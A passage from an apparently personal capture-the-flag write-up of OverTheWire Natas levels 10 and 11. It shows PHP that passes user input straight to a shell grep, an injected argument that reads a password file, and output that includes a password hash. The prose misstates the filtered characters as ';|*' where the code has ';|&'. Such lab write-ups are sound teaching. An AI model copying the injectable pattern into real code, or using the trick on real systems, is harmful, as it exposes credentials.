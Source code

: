 It displays our password.

### Natas 10
- - - - - - -

We are presented with a new form that is similar to the previous and a message saying characters are censored now. If we look at the source we get the following.

{% highlight php %}
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
{% endhighlight %}

The regex checks the entire string for the following characters ';|*' which completely blocks our last attempt however. We can still pass a path to the application. By using ".*" we are telling it to show everything. We will also add a # to comment out the dictionary.txt so our path is the one searched.

{% highlight bash %}
.* /etc/natas_webpass/natas11 #
{% endhighlight %}

When we input that we are given the following with our password.

{% highlight bash %}
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$sDWfJg4Y$ewf9jvw0ChWUA3KARHisg.
/etc/natas_webpass/natas11:[OMITTED]
{% endhighlight %}

### Natas 11
- - - - - - -

When we are presented with natas 11 we are given a small input field that takes an RGB color and sets the color. Nothing to interesting. We also get the message that the cookies are protected using XOR. Meaning this is going to be a little bit of an annoyance. When we view the source code we get the following.

{% highlight php %}
<?
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}
function loadData($def) {